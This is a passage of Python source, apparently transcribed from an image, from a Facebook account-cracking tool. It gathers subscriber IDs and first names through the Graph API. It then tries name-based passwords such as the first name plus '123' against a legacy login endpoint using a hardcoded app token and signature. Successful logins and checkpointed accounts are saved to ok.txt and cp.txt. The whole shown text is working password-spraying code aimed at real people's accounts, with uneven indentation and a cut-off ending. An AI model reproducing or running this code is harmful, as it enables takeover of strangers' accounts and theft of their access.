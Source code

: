 		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
			   
	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		crack2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	
	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else: